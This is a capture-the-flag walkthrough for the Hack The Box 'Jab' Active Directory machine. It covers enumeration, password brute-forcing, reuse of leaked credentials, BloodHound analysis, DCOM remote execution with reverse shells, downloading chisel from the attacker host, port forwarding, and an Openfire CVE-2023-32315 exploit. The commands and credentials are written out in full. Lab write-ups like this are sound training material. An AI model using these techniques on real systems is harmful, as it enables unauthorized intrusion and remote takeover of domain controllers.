



# [Jab](https://app.hackthebox.com/machines/jab)

```bash
nmap -p- --min-rate 10000 10.10.11.4 -Pn
```


After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p53,88,135,139,389,445,464,593,636,3268,3269,5222,5223,5269,5270,7070,7443,7777 10.10.11.4 -Pn
```


This machine is `Domain Controller`.


We need to add this ip address into `/etc/hosts` file for resolving purposes.


From port enumeration, I saw that `5222` port is running. To access to this application, we need to use `pidgin` software.




After account creation, I find users of target domain.




I find new domain `conference.jab.htb`, let's add this also into `/etc/hosts` file.


I connect into `test2` room and see `bdavis` message.


Let's brute-force this user's password with default passwords and below one is worked.


bdavis:Welcome1


Again, I login into this server this credentials.

With that user, I find `pentest2003` room and here I find some interesting and sensitive stuff.


I find `hashcat` output result for `svc_openfire` user.


svc_openfire:!@#$%^&*(1qazxsw


Let's check this credentials are domain account's credentials or not via `crackmapexec`.

```bash
crackmapexec smb jab.htb -u "svc_openfire" -p '!@#$%^&*(1qazxsw'
```


Let's enumerate `SMB` shares via this account by using `smbmap` tool.
```bash
smbmap -H jab.htb -u "svc_openfire" -p '!@#$%^&*(1qazxsw'
```


There's nothing, I run `bloodhound` against my target via this credentials.

```bash
bloodhound-python -u 'svc_openfire' -p '!@#$%^&*(1qazxsw' -d jab.htb -dc DC01.jab.htb -c all -ns 10.10.11.4
```


Let's run `bloodhound` for this.
```bash
neo4j start
bloodhound
```


While analyzing privileges of `svc_openfire` user, I find `ExecuteDCOM` privilege against `Domain Controller`.


It means our `svc_openfire` user has membership of group called `Distributed COM(Component Object Model) Users` localgroup on `DC01.jab.htb` machine.


As a result, we can do code execution on remote machine.

For this, I will use `dcomexec` script of `Impacket` module.
```bash
impacket-dcomexec 'jab.htb/svc_openfire:!@#$%^&*(1qazxsw@dc01.jab.htb' '{powershell_reverse_shell}' -nooutput -object MMC20 -dc-ip 10.10.11.4
```


I prepare my reverse shell payload on [revshells](https://revshells.com/)


Hola, I got reverse shell from port `1337`.


user.txt


For `Privilege Escalation`, I just look at listening ports via `netstat`.

```bash
netstat -ano | findstr 'LISTENING'
```


I see port `9090`, let's do `Port Forwarding` via chisel.

I need to transfer `chisel.exe` into machine.
```bash
python3 -m http.server --bind 10.10.14.12 8080
```


Then, I download this via `iwr` command.
```bash
iwr http://10.10.14.12:8080/chisel.exe -outfile chisel.exe
```


First, I need to open `chisel` server on my machine.
```bash
chisel server -p 9999 --reverse
```



Second, I need to run below payload to connect into my machine.
```bash
chisel client 10.10.14.12:9999 R:9090:127.0.0.1:9090
```


I opened the web application on port `9090` as below.


I login via my `svc_openfire` credentials.


I read [this](https://www.vicarius.io/vsociety/posts/cve-2023-32315-path-traversal-in-openfire-leads-to-rce) to get Remote Code Execution and do the steps shown in here.


That's [CVE-2023-32315](https://github.com/miko550/CVE-2023-32315)


After uploading `vulnerable` jar file, I can browse this and got shell by selecting `system command`


Let's add reverse shell payload (powershell reverse shell payload base64 encoded) into here to get reverse shell.


Hola, I got reverse shell from port `1338`.


root.txt

